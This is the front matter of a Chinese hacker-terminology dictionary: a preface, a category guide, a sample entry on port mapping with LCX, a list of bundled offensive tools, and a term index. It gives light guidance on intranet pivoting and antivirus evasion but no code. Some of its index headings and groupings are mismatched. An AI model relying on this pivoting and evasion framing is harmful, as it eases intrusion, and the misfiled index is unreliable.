# 黑客词典中文版

作者：高康迪

非安全·黑客手册 出品

为配合已经出版发行的《黑客术语图文辞典（英文词汇版）》，特别推出以中文字词汇为主打的本书——《黑客词典》。

这本书所包含的词汇是《非安全·黑客手册》杂志与笔者几年来从各种黑客技术类文章与书籍中收集而来。相对于英文词汇，这些中文词汇在我们平时的学习中碰到的几率也更多，所以在你碰到不熟悉的词语时，这本书可以很好地帮助你。

在去年的《黑客术语图文辞典（英文词汇版）》发行之后，我们收到许多读者的建议，于是笔者经过几个月的努力，不仅精心筛选了入围的词汇，更在词语的解释上花了不少时间，力求让读者朋友们能够简单、轻松、直观地理解词语的含义。同时，更在一些词语后面加了全新的 HACK TIPS，作为词语本身知识范围的延展，让你的视野更加开阔。

黑客技术包含的内容非常广泛，几乎涉及到了计算机与网络技术的所有层面。想要成为一个真正的黑客，就要对计算机与网络技术有充分的理解和深入学习，这才是黑客技术吸引人的真正原因。

在一个渗透过程中，黑客可能首先要分析对方主机上的漏洞，这里就要求对操作系统与操作系统上常用的服务软件有相当的了解。进一步可以用调试技术分析出漏洞所在，并利用编程技术写出一个合适的 Exploit 进行攻击。如果对方开放了 WEB 服务，则会去寻找是否有合适的机会利用已掌握的脚本与数据库技术发起 SQL 注入攻击。当得到外部服务器权限之后，就要利用合适的工具来分析内部网络的情况，路由器、交换机、网段的划分都要一一弄清，这里又要熟练地掌握网络技术。如果某台服务器做了 IP 限制，则尝试可否利用 IP 欺骗进行攻击，这里就必须对 IP 协议有深刻的理解。

这样，在一次渗透攻击过程中，不仅需要有一定的编程基础与漏洞挖掘技术，还必须懂得数据库与 SQL 注入，知道路由器、交换机的原理与基本配置命令，理解 IP 协议。从上面的例子可以看出黑客技术的广泛性，所以编写一部黑客词典其实就是编写了一部计算机与网络术语词典，只不过是从黑客的角度来写罢了。

相信这本书能让你在学习的过程中不再困惑，并且真正从本书中受益。

## 导读

这本词典是专门为刚接触黑客技术并对其怀有极大兴趣与求知欲的朋友而编撰。当然，它也同样适合有一定基础、想要深入学习的朋友。其中包括了与黑客技术相关的大部分中文词汇，当你平时碰到陌生词语时，这本词典应该能给你一些帮助。

本词典有两个目录，一个是根据字母顺序进行编排的目录 A，另一个是根据其分类来编排的目录 B，你可以根据实际情况选择最快的一种方式进行查阅。本词典的词语分类情况如下：

- 黑客技术基础
- 攻击方法与行为
- 操作系统及其相关
- 脚本
- 数据库
- 病毒与恶意软件
- 应用程序
- 黑客工具
- 安全技术
- 渗透技术
- 调试技术
- 免杀技术
- 特定名称
- 程序语言与开发
- 加密解密
- 硬件

以上一共有 16 个分类，除了“黑客技术基础”与“特定名称”外，其余的都是按照黑客技术的各个组成部分来进行分类。下面来介绍一下各分类的含义以及主要包含的词汇。

### 黑客技术基础

正如前言所说，黑客技术基本上包括了计算机与网络技术的方方面面，所以黑客技术基础是所有分类中最多的一个。其实这些基础词语也是计算机与网络技术的基础。常见的协议与端口与常见的入侵方法都在这里，如“端口映射”“挑战/响应机制”“拓扑结构”“子网掩码”等。当你经常看见一些词语但又不了解意思的话，可以到这里找。当然，如果你只是想恶补一下自己平时的盲点，也可以仔细看一下这个部分。

### 攻击方法与行为

黑客技术中的攻击方法繁多，而不同的攻击方法通过不同的方式组合起来就变成了更多的攻击行为。这个分类主要包含了入侵或攻击过程中的常见方法与行为，如“暴力破解”“缓冲区溢出”“浏览器劫持攻击”等。同时，如果你想寻找入侵或攻击的方法，也可以到这里找一些方法与灵感。

### 操作系统及其相关

操作系统是计算机上所有活动的基础，不管是程序开发还是入侵乃至提权，都需要对操作系统有详尽的了解。这个分类主要包含了与操作系统相关的一些机制、常见的文件、命令以及其它一些相关词语，当然也包括操作系统本身，如“磁盘阵列技术”“进程树”“启动项”“组策略”等。

### 脚本

脚本是网络上重要的一个技术，现在网络上形形色色的动态网站也都是在脚本的基础上建立起来的。如果脚本程序出现问题，也会导致整个网站乃至整个服务器的沦陷，所以现在一直是国内黑客界热门的话题。这个分类包含了与脚本有关的技术及一些著名的脚本程序，如“动网”“风讯”等。

### 数据库

在现代网络中，信息成了最核心的东西，而储存信息的数据库自然就成了安全性要求极高的部分。使用数据库可以带来许多好处，如减少数据的冗余度，从而大大节省数据的存储空间，实现数据资源的充分共享等。此外，数据库技术还为用户提供了非常简便的使用手段，使用户易于编写有关数据库应用程序。数据库技术与脚本一起构成了一直火热的 SQL 注入技术。这个分类包含了与黑客技术紧密相关的数据库知识，如“差异备份”“存储过程”“跨库查询”等。

### 病毒与恶意软件

病毒应该是网络上最受关注的安全词语了。同时，恶意软件造成的恶劣影响也丝毫不在病毒之下，所以将这两个合并在一个分类。该分类中包含了与病毒技术有关的名词，如“动态调试”“断点”“宏病毒”“守护进程”“震荡波病毒”“反汇编”等词条。

### 应用程序

在进行许多入侵、渗透等黑客活动时，需要用到许多优秀的程序。这里汇集了很多中性的程序，也就是说，在一些时候它们既可以用来防御与维护计算机或网络，也可以用来攻击，如“冰刃”“影子系统”等。

### 黑客工具

黑客技术不能全依赖于工具，但同时也离不开好的工具。这个分类中包含了许多著名与优秀的黑客工具，包括“啊D网络工具包”“爱莎网络监控器”“明小子的旁注WEB综合检测程序”等，其中的一些包含了基本的使用方法与原理解析。

### 安全技术

有攻击就有防御，此分类中包含了许多安全防御方面的相关词条，包括常见的安全漏洞、安全防御工具与安全防御机制等，如“安全策略”“哈希函数”“硬件防火墙”等。

### 渗透技术

渗透技术作为黑客技术中最迷人的技术，其中到处闪烁着智慧的光芒。渗透不是简单的入侵，它应该是从外部网络进入内部网络，直到得到内网各主机的控制权的一个过程。它需要根据不同的情况来采取不同的对策，是最能反映一个黑客技术水平的一项指标。这个分类里包含了一些基本的渗透方法，如“踩点”“旁注攻击”“中间人攻击”等。

### 调试技术

调试技术是黑客技术中的一个重要分支，通过它可以了解程序运行流程，是发现程序漏洞的基础。如果真的熟练掌握了调试技术，也许就可以做到“给我一个程序，我给你一份源代码”的境界。

### 免杀技术

随着杀毒技术的发展，病毒与木马的查杀早已不是传统的特征码定位了。随着主动防御技术的问世，程序对系统的各种操作早已在杀毒软件的监控当中，所以如何逃过杀毒软件的法眼、避免被查杀，就成了最近一直非常热门的技术。本分类包含的是与免杀技术相关的词语，如“花指令”“内存免杀”等。

### 特定名称

这个分类中包含了许多与黑客技术有关的组织与约定俗成的名称，如“黑色产业链”“僵尸网络”“社会工程学”等。

### 程序语言与开发

“一个真正的黑客首先必须是一个好的程序员。”从这句话中可以看出程序编写能力对于黑客技术的重要性。这个分类包含了黑客技术常见的编程词汇，如“句柄”“容错处理”等。

### 加密解密

加密解密是黑客技术中永恒的话题。这个分类不单单只是密码学上的加密解密，更多包含人们俗称的“破解技术”中的一些相关词汇与常用工具，如“标志位”“非明码”等。

### 硬件

硬件是计算机的基础，自然也是黑客技术的基础。这个分类包含了与黑客技术息息相关的一些硬件，如“交换机”“可移动磁盘”等。

介绍完各个分类后，就要讲解一下本书的其它一些细节问题。在许多词语的解释中，也许会涉及到一些其它的术语词汇，可能有的读者在查阅某个词语时会被其中的其它陌生词汇所困扰，然后又陷入不能理解的情况。为了避免这个问题，笔者在每个词汇的解释中，对于本书有的一些词汇都做了标记。当你看到一个如【交换机】这样的标志时，就表明本词典已经收录这个词，可以查阅。如果这个词在解释中多次出现，只会标记第一次出现的位置。请看如下示例，对于“端口映射”的解释：

## 端口映射（黑客技术基础，渗透技术）

也叫端口重定向。当一个主机A在【内网】而没有【外网】IP时，外部的主机B无法直接连接它，这时就需要做一个端口映射，将主机A的【网关】（有公网）指定端口接收到的数据全部转发到主机A的端口上，这样就可连接网关的端口，连接到内部主机A的端口了。

端口映射在渗透中经常用到，通常在得到了外部服务器的权限而想要继续与服务器内部的其它主机进行连接时，就需要做端口映射，常见的有 PortMap 与 LCX。如图D-7，为 PortMap。

## HACK TIPS：

利用常规的端口映射有时会受到很多限制。首先做映射的主机必须要有公网IP，而且还必须保证映射的端口没有被防火墙阻挡。而 LCX 这样的工具可以很好地解决这几个问题，它与普通端口转发工具有所不同。普通端口转发工具是被动监听端口，等待远程主机连接后再进行转发。这样，要连接到内网主机就必须要一台有【公网】IP的主机，即必须要三台计算机。而 Lcx.exe 是主动连接远程主机，TCP连接建立后再进行端口转发，因此，不仅穿透【防火墙】的效果更好，而且也只需两台计算机。不过，需要其远程主机有公网IP。

从上面的解释中可以看到，“内网”“外网”“网关”等都做了特殊标记，表明这些词语可以在词典中查到。在词语的最后会有一个 HACK TIPS，这种 HACK TIPS 是在词语本身知识范围上的一些延展，可以让你更好地理解整个词语并开阔视野。另外，一些英文词语，如上面的“LCX”也做了特殊标记，代表这个词语会在《黑客术语词典》的英文词汇版中出现。当你在解释中看到这些标记，同时又不明白这个词的意思时，可以进行相关查阅。

## 常用工具

说明：光盘中的 zip 及 rar 压缩包文件请使用 WinRAR 工具解压，建议用户先安装虚拟机软件搭建一个全新系统对相关工具程序进行测试学习。实际内容以光盘为主，请大家浏览 soft 目录。

- 解压压缩软件 Wrar371Gui
- CSF 文件播放器
- PDF+PDG+WDL 三合一阅读器
- 多媒体播放器暴风影音2009
- Pangolin 穿山甲最新汉化版
- OllyICE
- SQL 综合利用工具
- NC
- 可视化 NC
- nc 使用技巧

## 其它软件

- BlackHole 1.96
- PortMap 1.6
- IceSword 冰刃

## DISC CONTENTS 光盘目录

- sessionIE
- anehta - v0.6.0 fixed
- 机时小偷
- 影子系统
- 网络执法官
- 维客远程控制系统
- 明小子的旁注WEB综合检测程序
- 穿山甲
- 虚拟桌面专家
- 爱莎网络监控器
- 花刺代理验证
- 文件夹加密大师
- 超级远程管理 SUPERRA
- 网络神偷 v11.6
- 锐起无盘 XP252540
- 花蝴蝶免杀加花正式版 V1.0
- VMware Workstation 6 + 汉化补丁
- SSClone 第一版
- 风云防火墙

## 字母分类查询

### A

- 暗桩｜加密解密｜18
- 啊D网络工具包｜黑客工具｜18
- 啊D注入（注射）工具｜黑客工具｜19
- 啊拉QQ大盗｜黑客工具｜19
- 爱莎网络监控器｜黑客工具｜19
- 安全策略｜安全技术｜20
- 安全等级｜安全技术｜20
- 安全分析专家｜安全技术｜21
- 安全公告｜安全技术｜21
- 安全焦点｜特定名称｜21
- 安全模式｜操作系统及其相关｜21
- 安全增强 Linux｜安全技术，操作系统及其相关｜22
- 安全证书｜安全技术｜22

- 变异｜特定名称｜27
- 变种｜特定名称｜27
- 变种编号｜特定名称｜27
- 变种木马｜特定名称｜27
- 遍历｜程序语言与开发｜27
- 遍历目录｜程序语言与开发｜27
- 标识符｜程序语言与开发｜28
- 表｜数据库｜28
- 表单｜黑客技术基础｜28
- 表段｜数据库｜28
- 表名｜数据库｜28
- 冰河｜黑客工具｜29
- 冰刃｜应用程序｜29
- 病毒库｜病毒与恶意软件，安全技术｜29
- 病毒体｜病毒与恶意软件｜30
- 拨号上网｜黑客技术基础｜30
- 博客｜黑客技术基础｜30
- 补丁程序｜操作系统及其相关｜30
- 不可逆加密算法｜安全技术｜30
- 不对称加密算法｜安全技术｜30

### B

- 八进制｜黑客技术基础｜23
- 标志位｜加密解密｜23
- 半开放扫描｜黑客技术基础｜23
- 绑定IP和MAC｜黑客技术基础｜24
- 绑定SHELL｜攻击方法与行为｜24
- 绑定端口｜黑客技术基础｜24
- 绑定域名｜黑客技术基础｜24
- 报头｜黑客技术基础｜24
- 报头数据结构｜黑客技术基础｜24
- 暴错｜黑客技术基础｜25
- 暴库｜攻击方法与行为｜25
- 暴力破解｜攻击方法与行为｜26
- 暴路径｜攻击方法与行为｜26
- 暴破｜攻击方法与行为｜26
- 贝叶斯过滤｜安全技术｜26
- 本地｜黑客技术基础｜26
- 本地监听端口｜黑客技术基础｜27
- 本地主机｜黑客技术基础｜27
- 变量｜程序语言与开发｜27

### C

- 猜解表名｜攻击方法与行为｜31
- 猜解列名｜攻击方法与行为｜32
- 猜解内容｜攻击方法与行为｜32
- 重定位｜加密解密｜32
- 重启验证｜加密解密｜32
- 踩点｜渗透技术｜32
- 查点｜渗透技术｜33
- 菜鸟｜特定名称｜34
- 插件｜特定名称｜34
- 查壳｜调试技术｜35
- 查询语句｜数据库｜35
- 差异备份｜数据库，攻击方法与行为｜35
- 存储过程｜数据库｜35
- 常量｜程序语言与开发｜36
- 超级远程管理 SuperRA｜应用程序｜36
- 超链接｜黑客技术基础｜36
- 穿山甲｜黑客工具｜37
- 尘缘捷境图文系统｜脚本｜37
- 程序领空｜程序语言与开发｜37
- 冲击波｜病毒与恶意软件｜37
- 初始密码｜特定名称｜38
- 纯真IP数据库｜黑客技术基础｜38
- 词典破解｜攻击方法与行为｜38
- 磁盘｜操作系统及其相关｜38
- 磁盘配额｜操作系统及其相关｜38
- 磁盘权限｜操作系统及其相关｜39
- 磁盘阵列技术｜操作系统及其相关｜39
- 刺探｜渗透技术｜39
- 错误处理机制｜程序语言与开发｜39
- 堆栈溢出｜攻击方法与行为｜47

### D

- 大马｜渗透技术｜39
- 代理｜黑客技术基础｜40
- 多重代理｜黑客技术基础｜40
- 代理服务器｜黑客技术基础｜40
- 代码注入｜攻击方法与行为｜41
- 单播｜黑客技术基础｜41
- 多播｜黑客技术基础｜41
- 单线程下载｜黑客技术基础｜41
- 盗链｜特定名称｜42
- 低用户权限｜黑客技术基础｜42
- 钓鱼攻击｜攻击方法与行为｜42
- 动态调试｜调试技术｜42
- 动态分析软件｜调试技术｜43
- 动态跟踪｜调试技术｜43
- 动态链接库｜程序语言与开发，操作系统及其相关｜43
- 动态IP｜黑客技术基础｜44
- 动态域名｜黑客技术基础｜44
- 动网｜脚本｜45
- 动易2006漏洞利用工具｜黑客工具｜45
- 端口｜黑客技术基础｜45
- 端口复用｜黑客技术基础｜46
- 端口监听｜黑客技术基础｜46
- 端口列表｜黑客技术基础｜46
- 端口扫描｜黑客技术基础｜46
- 端口映射｜黑客技术基础，渗透技术｜46
- 端口重定向｜黑客技术基础｜47
- 端口转发｜黑客技术基础｜47
- 堆栈｜调试技术｜47

### E

- 恶意插件｜病毒与恶意软件｜48
- 二级域名｜黑客技术基础｜48
- 二进位｜黑客技术基础｜48
- 二进制｜黑客技术基础｜48

### F

- 发包工具｜黑客技术基础｜49
- 反编译｜程序语言与开发，调试技术｜49
- 反弹端口｜黑客技术基础｜49
- 反弹技术｜黑客技术基础｜49
- 反弹木马｜黑客技术基础｜50
- 反调试｜调试技术｜50
- 反汇编｜调试技术｜50
- 反间谍软件｜黑客技术基础｜50
- 反向连接｜黑客技术基础｜51
- 反向溢出｜攻击方法与行为｜51
- 防盗链｜特定名称｜51
- 防火墙｜黑客技术基础｜51
- 防火墙策略｜安全技术｜51
- 防注｜安全技术｜52
- 访问控制模型｜安全技术｜52
- 访问控制列表｜安全技术｜52
- 非明码｜加密解密｜53
- 分区｜操作系统及其相关｜53
- 分布式攻击｜攻击方法与行为｜53
- 风讯｜脚本｜54
- 风云防火墙｜应用程序｜54
- 服务｜操作系统及其相关｜54
- 服务端｜黑客技术基础｜55
- 服务器｜黑客技术基础｜55
- 父目录｜黑客技术基础｜56
- 附加码｜安全技术｜56
- 服务器返回值｜黑客技术基础｜56

### G

- 高危端口｜安全技术｜57
- 格式化｜操作系统及其相关｜58
- 个人防火墙｜安全技术｜58
- 根目录｜操作系统及其相关｜58
- 工作站｜黑客技术基础｜58
- 公共加密算法｜安全技术｜59
- 公网｜黑客技术基础｜59
- 公钥｜安全技术｜59
- 共享服务器｜黑客技术基础｜59
- 钩子｜程序语言与开发、安全技术｜60
- 挂马｜攻击方法与行为｜60
- 关键字｜特定名称｜60
- 管道符号｜黑客技术基础｜61
- 管理权限｜黑客技术基础｜61
- 管理员权限｜操作系统及其相关｜61
- 管理员｜操作系统及其相关｜61
- 光盘镜像｜操作系统及其相关｜61
- 广播｜黑客技术基础｜62
- 广播命令｜黑客技术基础｜62
- 广域网｜黑客技术基础｜63
- 过滤｜安全技术｜63
- 过滤语句｜安全技术｜63

### H

- 哈希函数｜安全技术｜64
- 海阳顶端网ASP木马｜黑客工具｜64
- 函数｜程序语言与开发｜65
- 黑洞｜黑客工具｜65
- 黑客｜特定名称｜65
- 黑客守则｜特定名称｜66
- 黑客必备工具包｜黑客工具｜66
- 黑雨｜黑客工具｜66
- 红蜘蛛键盘记录器｜黑客工具｜66
- 宏｜特定名称｜67
- 宏病毒｜病毒与恶意软件｜67
- 后门｜黑客技术基础｜67
- 后台｜黑客技术基础｜68
- 后台权限｜黑客技术基础｜68
- 活动目录｜操作系统及其相关｜68
- 花刺代理验证｜黑客技术基础｜69
- 花蝴蝶免杀加花正式版｜黑客工具、免杀技术｜69
- 花指令｜免杀技术｜69
- “红色代码”蠕虫｜病毒与恶意软件｜70
- 黑色产业链｜特定名称｜70
- 还原｜特定名称｜71
- 还原精灵｜应用程序｜71
- 还原卡｜安全技术｜71
- 环境变量｜操作系统及其相关｜72
- 缓冲区｜特定名称｜72
- 灰鸽子｜黑客工具｜73
- 灰鸽子清除器｜应用程序｜73
- 汇编语言｜程序语言与开发｜73
- 会话｜黑客技术基础｜74
- 混杂模式｜特定名称｜75
- 跨站脚本攻击利用平台｜特定名称｜75

### J

- 机器码｜程序语言与开发｜75
- 机器语言｜程序语言与开发｜75
- 机时小偷｜黑客工具｜76
- 畸形URI｜安全技术｜76
- 激活｜特定名称｜76
- 寄存器｜操作系统及其相关｜76
- 加花处理｜攻击方法与行为｜77
- 间谍软件｜病毒与恶意软件｜77
- 监听端口｜黑客技术基础｜77
- 键｜操作系统及其相关｜77
- 键名｜操作系统及其相关｜77
- 键盘钩子｜程序语言与开发｜77
- 键盘记录｜攻击方法与行为｜77
- 江民杀毒软件｜应用程序｜78
- 僵尸网络｜特定名称｜78
- 交换机｜硬件｜79
- 脚本语言｜脚本｜80
- 节｜调试技术｜80
- 结束进程｜黑客技术基础｜80
- 金山毒霸｜应用程序｜80
- 进程｜操作系统及其相关｜80
- 进程标识｜操作系统及其相关｜81
- 进程树｜操作系统及其相关｜81
- 进制｜特定名称｜82
- 静态IP地址｜黑客技术基础｜82
- 静态MAC表｜黑客技术基础｜82
- 静态页面｜黑客技术基础｜83
- 局域网｜黑客技术基础｜83
- 句柄｜程序语言与开发｜83
- 拒绝服务攻击｜攻击方法与行为｜84
- 绝对路径｜黑客技术基础｜85

### K

- 卡巴斯基｜应用程序，安全技术｜85
- 开源｜特定名称｜86
- 壳｜加密解密｜87
- 可移动磁盘｜硬件｜88
- 可执行文件｜操作系统及其相关｜88
- 克隆管理员｜渗透技术｜88
- 克隆账户｜渗透技术｜88
- 客户端｜黑客技术基础｜91
- 空｜黑客技术基础｜91
- 空会话｜黑客技术基础｜91
- 空口令｜黑客技术基础｜92
- 库名｜数据库｜93
- 跨库查询｜数据库｜93
- 跨库查询攻击｜攻击方法与行为｜93
- 跨站攻击｜攻击方法与行为｜95
- 狂芒幽灵｜黑客工具｜96
- 傀儡机｜特定名称｜96
- 捆绑｜攻击方法与行为｜96
- 跨域窃取 Cookie｜攻击方法与行为｜97
- 扩展名｜操作系统及其相关｜97

### L

- 垃圾邮件｜黑客技术基础｜98
- 蓝屏｜操作系统及其相关｜98
- 列名｜数据库｜100
- 流光｜黑客工具｜100
- 流量｜黑客技术基础｜102
- 流媒体｜黑客技术基础｜103
- 流氓软件｜病毒与恶意软件｜103
- 浏览器劫持攻击｜攻击方法与行为｜105
- 路由｜黑客技术基础｜105
- 路由器｜黑客技术基础｜106
- 逻辑错误｜特定名称｜107
- 逻辑分区｜操作系统及其相关｜107
- 逻辑炸弹｜病毒与恶意软件｜107

### M

- 马甲｜特定名称｜108
- 美萍安全卫士｜应用程序｜108
- 密码强度｜安全技术｜108
- 免 FSO｜特定名称｜108
- 蜜罐｜安全技术｜108
- 明文｜安全技术｜109
- 明小子的 PHP 注入工具｜黑客工具｜109
- 明小子的旁注 WEB 综合检测程序｜黑客工具｜109
- 命令行｜操作系统及其相关｜109
- 魔鬼波｜病毒与恶意软件｜110
- 木马｜特定名称｜110
- 木桶理论｜特定名称｜111

### N

- 内存｜硬件，操作系统及其相关｜112
- 内存免杀｜免杀技术｜113
- 内存特征码｜安全技术｜113
- 内核｜操作系统及其相关｜113
- 内网｜黑客技术基础｜113
- 内网渗透｜渗透技术｜114
- 匿名｜黑客技术基础｜115

### P

- 盘符｜操作系统及其相关｜115
- 旁注攻击｜攻击方法与行为，渗透技术｜116
- 批处理｜操作系统及其相关｜116
- 偏移量｜程序语言与开发｜117
- 苹果机｜特定名称｜117

### Q

- 启动项｜操作系统及其相关｜117
- 桥接｜黑客技术基础｜119
- 请求注解｜特定名称｜119
- 穷举法｜攻击方法与行为｜120
- 区段｜免杀技术｜120
- 区段入口｜免杀技术｜120
- 权限｜操作系统及其相关｜121
- 权限提升｜渗透技术｜121

### R

- 任务管理器｜操作系统及其相关｜121
- 日志｜操作系统及其相关｜123
- 容错处理｜程序语言与开发｜125
- 肉鸡｜特定名称｜126
- 蠕虫｜病毒与恶意软件｜126
- 入口点｜调试技术｜126
- 软件防火墙｜安全技术｜126
- 锐起无盘 XP 管理器｜应用程序｜127
- 瑞星杀毒软件｜安全技术、应用程序｜127
- 弱口令｜安全技术｜127

### S

- 赛门铁克｜特定名称｜134
- 杀毒软件｜安全技术｜134
- 扇区｜硬件｜134
- 上传页面｜黑客技术基础｜134
- 上传漏洞｜攻击方法与行为｜135
- 上兴远程控制｜黑客工具｜140
- 社会工程学｜特定名称｜140
- 十六进制｜黑客技术基础｜141
- 实时监控｜安全技术｜141
- 手工脱壳｜加密解密｜141
- 守护进程｜操作系统及其相关、病毒与恶意软件｜142
- 输入法漏洞｜渗透技术｜142
- 数据包｜黑客技术基础｜142
- 数据报｜黑客技术基础｜143
- 数字型｜特定名称｜143
- 双绞线｜黑客技术基础｜143
- 私钥｜安全技术｜143
- 宿主｜病毒与恶意软件｜144
- 算法｜特定名称｜144

### T

- 挑战/响应验证机制｜安全技术｜144
- 套接字｜程序语言与开发｜144
- 特征码｜免杀技术｜145
- 腾讯｜特定名称｜145
- 提权｜渗透技术｜145
- 天网防火墙｜应用程序｜147
- 跳板｜黑客技术基础｜147
- 头文件｜程序语言与开发｜150
- 脱壳｜加密解密｜150
- 拓扑结构｜黑客技术基础｜150

### W

- 无 ARP 欺骗嗅探技术｜攻击方法与行为｜152
- 外部提交｜攻击方法与行为｜152
- 外网｜黑客技术基础｜152
- 万象｜应用程序｜153
- 网段｜黑客技术基础｜153
- 网关｜黑客技术基础｜153
- 网卡｜硬件｜153
- 网络层｜黑客技术基础｜154
- 网络地址转换服务｜黑客技术基础｜154
- 网络神偷｜黑客工具｜154
- 网络硬盘｜黑客技术基础｜155
- 网络执法官｜黑客工具｜155
- 网桥｜黑客技术基础｜156
- 网页木马｜攻击方法与行为｜156
- 网站智能建站系统｜黑客技术基础｜157
- 维客远程控制系统｜应用程序｜157
- 文件关联｜操作系统及其相关｜157
- 文件夹加密大师｜应用程序｜157
- 无盘｜黑客技术基础｜157
- 无盘工作站｜黑客技术基础｜157
- 无盘网络｜黑客技术基础｜158
- 无启动项｜特定名称｜158
- 无组件上传｜黑客技术基础｜158
- 无线网络｜黑客技术基础｜158
- 物理安全｜安全技术｜159
- 物理地址｜操作系统及其相关｜159

### X

- 系统安全标识符｜操作系统及其相关｜159
- 系统服务｜操作系统及其相关｜159
- 系统盘符｜操作系统及其相关｜159
- 系统权限｜操作系统及其相关｜160
- 下载者｜黑客工具｜160
- 线程｜程序语言与开发，操作系统及其相关｜160
- 小榕｜特定名称｜160
- 校验和｜安全技术｜161
- 邪恶八进制信息安全团队｜特定名称｜161
- 修改特征码｜免杀技术｜161
- 虚拟光驱｜操作系统及其相关｜162
- 虚拟机｜操作系统及其相关｜162
- 虚拟目录｜黑客技术基础｜163
- 虚拟文件系统｜操作系统及其相关｜164
- 虚拟主机｜黑客技术基础｜164
- 虚拟桌面专家｜应用程序｜164
- 序列号｜特定名称｜165
- 嗅探｜攻击方法与行为｜165
- 嗅探器｜黑客工具｜166
- 雪人论坛｜脚本｜166
- 迅雷｜应用程序｜166

### Y

- 压缩打包｜特定名称｜166
- 压缩壳｜加密解密｜166
- 页面劫持｜攻击方法与行为｜166
- 一句话木马｜渗透技术｜167
- 以太网｜黑客技术基础｜167
- 溢出攻击｜攻击方法与行为｜167
- 引导扇区｜硬件｜167
- 隐藏账户｜渗透技术｜168
- 影子系统｜应用程序，安全技术｜168
- 硬件防火墙｜安全技术｜170
- 域｜黑客技术基础｜170
- 域服务器｜黑客技术基础｜171
- 域名｜黑客技术基础｜171
- 域名反弹｜特定名称｜172
- 源代码｜特定名称｜172
- 源地址｜黑客技术基础｜172
- 远程控制｜黑客技术基础｜172
- 远程主机｜黑客技术基础｜173

### Z

- 组｜操作系统及其相关｜173
- 栈｜调试技术｜173
- 整站程序｜特定名称｜173
- 侦壳软件｜加密解密｜174
- 振荡波病毒｜病毒与恶意软件｜174
- 帧｜黑客技术基础｜175
- 指针｜程序语言与开发｜175
- 中断｜调试技术｜175
- 中间人攻击｜渗透技术｜175
- 终端服务｜操作系统及其相关｜176
- 终端连接器｜应用程序｜177
- 注册表｜操作系统及其相关｜177
- 注册表编辑器｜操作系统及其相关｜179
- 注册机｜特定名称｜179
- 注册码｜特定名称｜180
- 注册码跟踪｜加密解密｜180
- 注入点｜渗透技术｜180
- 注销｜操作系统及其相关｜181
- 抓包｜黑客技术基础｜181
- 专杀工具｜特定名称｜181
- 转义字符｜程序语言与开发，攻击方法与行为｜181
- 子查询｜数据库｜182
- 子键｜操作系统及其相关｜182
- 子目录｜操作系统及其相关｜182
- 子网｜黑客技术基础｜182
- 子网掩码｜黑客技术基础｜183
- 字段｜数据库｜183
- 字符串｜程序语言与开发｜183
- 字符型｜程序语言与开发｜184
- 字节｜黑客技术基础｜184
- 自启动｜操作系统及其相关｜184
- 组播｜黑客技术基础｜187
- 组策略｜操作系统及其相关｜187
- 主动防御｜安全技术｜188
- 正则表达式｜黑客技术基础｜190

## 技术分类查询

### 黑客技术基础

- 八进制 23
- 半开放扫描 23
- 绑定 IP 和 MAC 24
- 绑定端口 24
- 绑定域名 24
- 报头 24
- 报头数据结构 24
- 暴错 25
- 本地 26
- 本地监听端口 27
- 本地主机 27
- 表单 28
- 拨号上网 30
- 博客 30
- 超链接 36
- 纯真 IP 数据库 38
- 代理 40
- 多重代理 40
- 代理服务器 40
- 单播 41
- 多播 41
- 单线程下载 41
- 低用户权限 42
- 动态 IP 44
- 动态域名 44
- 端口 45
- 端口复用 46
- 端口监听 46
- 端口列表 46
- 端口扫描 46
- 端口映射 46
- 端口重定向 47
- 端口转发 47
- 二级域名 48
- 二进位 48
- 二进制 48
- 发包工具 49
- 反弹端口 49
- 反弹技术 49
- 反弹木马 50
- 反间谍软件 50
- 反向连接 51
- 防火墙 51
- 服务端 55
- 服务器 55
- 父目录 56
- 服务器返回值 56
- 工作站 58
- 公网 59
- 共享服务器 59
- 管道符号 61
- 管理权限 61
- 广播 62
- 广播命令 62
- 广域网 63
- 后门 67
- 后台 68
- 后台权限 68
- 花刺代理验证 69
- 会话 74
- 监听端口 77
- 结束进程 80
- 静态 IP 地址 82
- 静态的 MAC 表 82
- 静态页面 83
- 局域网 83
- 绝对路径 85
- 客户端 91
- 空 91
- 空会话 91
- 空口令 92
- 垃圾邮件 98
- 流量 102
- 流媒体 103
- 路由 105
- 路由器 106
- 内网 113
- 匿名 115
- 桥接 119
- 上传页面 134
- 十六进制 141
- 数据包 142
- 数据报 143
- 双绞线 143
- 跳板 147
- 拓扑结构 150
- 外网 152
- 网段 153
- 网关 153
- 网络层 154
- 网络地址转换服务 154
- 网络硬盘 155
- 网桥 156
- 网站智能建站系统 157
- 无盘 157
- 无盘工作站 157
- 无盘网络 158
- 无组件上传 158
- 无线网络 158
- 虚拟目录 163
- 虚拟主机 164
- 以太网 167
- 域 170
- 域服务器 171
- 域名 171
- 源地址 172
- 远程控制 172
- 远程主机 173
- 帧 175
- 抓包 181
- 子网 182
- 子网掩码 183
- 字节 184
- 组播 187
- 正则表达式 190
- 绑定 SHELL 24
- 暴库 25
- 暴力破解 26
- 暴路径 26
- 暴破 26
- 猜解表名 31
- 猜解列名 32
- 猜解内容 32
- 差异备份 35
- 词典破解 38
- 代码注入 41
- 钓鱼攻击 42
- 堆栈溢出 47
- 反向溢出 51
- 分布式攻击 53
- 挂马 60
- 加花处理 77
- 键盘记录 77
- 拒绝服务攻击 84
- 跨库查询攻击 93
- 捆绑 96
- 跨域窃取 Cookie 97
- 浏览器劫持攻击 105
- 旁注攻击 116
- 穷举法 120
- 上传漏洞 135
- 无 ARP 欺骗嗅探技术 152
- 外部提交 152
- 网页木马 156
- 嗅探 165
- 页面劫持 166
- 溢出攻击 167
- 转义字符 181

### 操作系统及安全相关

- 安全模式 21
- 安全增强 Linux 22
- 补丁程序 30
- 磁盘 38
- 磁盘配额 38
- 磁盘权限 39

### 路由方法与行动

- 磁盘阵列技术 39
- 分区 53
- 服务 54
- 根目录 58
- 格式化 58
- 管理员权限 61
- 管理员 61
- 光盘镜像 61
- 活动目录 68
- 环境变量 72
- 寄存器 76
- 键 77
- 键名 77
- 进程 80
- 进程树 81
- 进程标识 81
- 可执行文件 88
- 傀儡机 96
- 扩展名 97
- 蓝屏 98
- 逻辑分区 107
- 命令行 109
- 内存 112
- 内核 113
- 盘符 115
- 批处理 116
- 启动项 117
- 权限 121
- 任务管理器 121
- 日志 123
- 守护进程 142
- 文件关联 157
- 物理地址 159
- 系统安全标识符 159
- 系统服务 159
- 系统盘符 159
- 系统权限 160
- 线程 160
- 虚拟光驱 162
- 虚拟机 162
- 虚拟文件系统 164
- 组 173
- 终端服务 176
- 注册表 177
- 注册表编辑器 179
- 注销 181
- 子键 182
- 子目录 182
- 自启动 184
- 组策略 187

### 基本工具

